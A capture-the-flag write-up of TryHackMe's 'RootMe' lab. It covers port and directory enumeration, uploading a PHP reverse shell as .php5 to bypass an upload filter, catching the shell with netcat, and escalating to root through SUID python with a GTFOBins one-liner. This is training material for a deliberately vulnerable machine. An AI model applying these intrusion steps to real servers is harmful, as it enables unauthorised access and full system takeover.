







# RootMe
**Date:** October 9th 2022

**Author:** j.info

**Link:** [**RootMe**](https://tryhackme.com/room/rrootme) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- Scan the machine, how many ports are open?
- What version of Apache is running?
- What service is running on port 22?
- What is the hidden directory?
- user.txt
- Search for files with SUID permission, which file is weird?
- root.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HackIT - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

That answers the first 3 questions.

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 30 -r -x php,txt,html -w dir-med.txt`

```
/index.php            (Status: 200) [Size: 616]
/css                  (Status: 200) [Size: 1126]
/js                   (Status: 200) [Size: 959] 
/uploads              (Status: 200) [Size: 744]
/panel                (Status: 200) [Size: 732]
```

That answers the 4th question.

<br>

## Website Digging

Visiting the main page:



Taking a look at /panel gives me a way to upload files, which I'm going to guess end up in the /uploads directory we found above:



I upload the pentestmonkey reverse .php shell and it looks like there are file type filters:



I test to see if it blocks all .php types and manage to upload it as a .php5:



And looking in /uploads confirms it's there:



<br>

## System Access

I set up a netcat listener on my system and click the file I uplaoded on the webpage:

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.35.253] 38130
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 02:57:54 up 12 min,  0 users,  load average: 0.00, 0.24, 0.34
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (908): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/$
```

And quickly fix my shell since python3 is available:

```
www-data@rootme:/$ which python3
which python3
/usr/bin/python3
www-data@rootme:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@rootme:/$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                        
┌──(kali㉿kali)-[~/work/tools]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@rootme:/$ export TERM=xterm-256color
www-data@rootme:/$
```

<br>

## System Enumeration

I check `sudo -l` but it requires a password.

Other than root we have 2 users with shells:

```
rootme:x:1000:1000:RootMe:/home/rootme:/bin/bash
test:x:1001:1001:,,,:/home/test:/bin/bash
```

Looking at their home directories doesn't give us anything useful.

Looking in the /var/www directory shows us the user.txt flag:

`wc -c /var/www/user.txt`

```
21 /var/www/user.txt
```

I also notice a .bash_history file here that shows some things the author probably didn't intend to. But, honestly, I would have checked for SUID files next anyways. Running:

`find / -perm /4000 2>/dev/null`

Shows us that the python binary has SUID set which gives us the answer to the 5th question:

```
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
```

<br>

## Root

The .bash_history file and GTFOBins list the same method to escalate over to root with the SUID python binary:

`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```
www-data@rootme:/$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
```

And over in /root we find the answer to the 6th and final question in root.txt:

`wc -c /root/root.txt`

```
26 /root/root.txt
```

You can also view the .bash_history file in /root to get a sense of some of the things the author did to create this box.

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding a page on the website that lets you **upload files**
- Bypassing the **.php filter** by uploading a reverse shell as **.php5**
- Using the **reverse shell** that was uploaded to get our initial foothold on the system
- The **python binary** had the **SUID** bit set and we use it to escalate to root

<br>

Many thanks to:
- [**ReddyyZ**](https://tryhackme.com/p/ReddyyZ) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)